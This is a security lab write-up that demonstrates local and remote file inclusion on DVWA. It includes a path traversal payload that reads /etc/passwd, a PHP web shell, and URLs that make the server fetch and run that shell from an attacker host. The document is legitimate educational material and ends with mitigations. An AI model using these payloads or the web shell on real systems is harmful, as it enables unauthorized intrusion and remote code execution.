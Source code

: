 # Experiment 9: Demonstrating File Inclusion Vulnerabilities (LFI/RFI)

**Aim:** To understand and demonstrate how File Inclusion vulnerabilities can be exploited to read sensitive files from a web server and, in some cases, achieve Remote Code Execution.

---

### 1. Theory

**File Inclusion** vulnerabilities are a type of web application flaw that allows an attacker to control which files are loaded or executed by the server. These vulnerabilities are particularly common in PHP-based applications that use user-supplied input (like URL parameters) to construct file paths for `include()` or `require()` statements without proper sanitization.

There are two primary types of File Inclusion attacks:

* **Local File Inclusion (LFI):** This attack allows an unauthorized user to include files that are already present on the server. By manipulating the input parameter, often using **Path Traversal** sequences (`../`), an attacker can navigate the server's file system and access files outside of the web root directory. This can lead to the disclosure of sensitive information, such as configuration files, source code, or system user lists (`/etc/passwd`).

    

* **Remote File Inclusion (RFI):** This is a more severe vulnerability that allows an attacker to include and execute files from a remote, attacker-controlled server. If an application is vulnerable to RFI, an attacker can host a malicious script (e.g., a web shell) on their own server and force the target application to fetch and execute it. A successful RFI attack almost always leads to full Remote Code Execution (RCE) on the server, giving the attacker complete control. This vulnerability typically requires insecure server configurations (e.g., `allow_url_include` enabled in PHP).

    

---

### 2. Requirements

* **Vulnerable Application:** Damn Vulnerable Web Application (DVWA).
* **Web Browser:** A modern browser with developer tools.
* **Local Server Environment:** A local server stack (like XAMPP or Docker) to host DVWA.
* **(For RFI):** A simple local web server (e.g., Python's `http.server`) and a basic PHP web shell script.

---

### 3. Disclaimer

> **⚠️ Educational Use Only:** File inclusion attacks can cause significant damage to a web server. This experiment must only be performed in a controlled, isolated lab environment on applications you own or have explicit permission to test. Unauthorized attacks are illegal and unethical.

---

### 4. Procedure

This procedure uses **Damn Vulnerable Web Application (DVWA)** with the security level set to **Low**.

#### Part A: Local File Inclusion (LFI)

1.  **Setup and Navigate:**
    * Log in to your local DVWA instance.
    * Navigate to the **File Inclusion** page.

2.  **Identify the Vulnerable Parameter:**
    * Observe the URL. It will look something like `.../vulnerabilities/fi/?page=include.php`. The `page` parameter is being used to include different files. Clicking the other file links (`file1.php`, `file2.php`) confirms this. This parameter is our injection point.

3.  **Exploit LFI with Path Traversal:**
    * The goal is to read the `/etc/passwd` file, which contains a list of users on the Linux server.
    * To do this, we need to traverse out of the current web directory (`/var/www/html/vulnerabilities/fi/`) to the root directory and then navigate to `/etc/passwd`.
    * Modify the URL in your browser's address bar to the following payload:
        ```
        http://<YOUR-DVWA-IP>/vulnerabilities/fi/?page=../../../../etc/passwd
        ```
    * Press Enter. The contents of the server's `/etc/passwd` file will be displayed on the web page, confirming the LFI vulnerability.

#### Part B: Remote File Inclusion (RFI)

**Note:** This part requires an insecure server configuration. For educational purposes, you may need to edit your server's `php.ini` file to set `allow_url_include = On` and then restart the web server. This is **not** recommended for production environments.

1.  **Create a Malicious File (Web Shell):**
    * On your attacker machine (this can be your host machine), create a file named `shell.php`.
    * Add the following simple PHP code to it. This script will execute any command passed to it via the `cmd` URL parameter.
        ```php
        <?php
          if (isset($_REQUEST['cmd'])) {
            echo "<pre>";
            system($_REQUEST['cmd']);
            echo "</pre>";
          }
        ?>
        ```

2.  **Host the Malicious File:**
    * Open a terminal in the same directory where you saved `shell.php`.
    * Start a simple Python web server to host the file on your local network:
        ```bash
        python3 -m http.server 8000
        ```
    * Note your attacker machine's IP address (e.g., using `ifconfig` or `ip a`).

3.  **Exploit RFI:**
    * Go back to the DVWA File Inclusion page in your browser.
    * Modify the URL to make the DVWA server include and execute your remote `shell.php` file. Replace `<ATTACKER-IP>` with your machine's IP address.
        ```
        http://<YOUR-DVWA-IP>/vulnerabilities/fi/?page=http://<ATTACKER-IP>:8000/shell.php
        ```
    * Press Enter. The page may appear blank, but your shell has been loaded and executed by the server.

4.  **Execute Commands on the Server:**
    * Now, use the loaded shell to run commands on the DVWA server by adding the `&cmd=` parameter to the URL.
    * To find out which user the web server is running as:
        ```
        http://<YOUR-DVWA-IP>/vulnerabilities/fi/?page=http://<ATTACKER-IP>:8000/shell.php&cmd=whoami
        ```
    * To get a directory listing:
        ```
        http://<YOUR-DVWA-IP>/vulnerabilities/fi/?page=http://<ATTACKER-IP>:8000/shell.php&cmd=ls -la
        ```
    * The command output will be displayed directly on the page, confirming you have achieved Remote Code Execution.

---

### 5. Conclusion

This experiment successfully demonstrated how file inclusion vulnerabilities can be exploited to achieve both sensitive information disclosure (via LFI) and complete server compromise (via RFI). The root cause is trusting user-supplied input in file operations. The key mitigation strategies are to **never use user input directly in file paths** and to implement a strict **allow-list** of files that are permitted to be included. Furthermore, maintaining a hardened server configuration, such as disabling `allow_url_include`, is crucial for preventing RFI.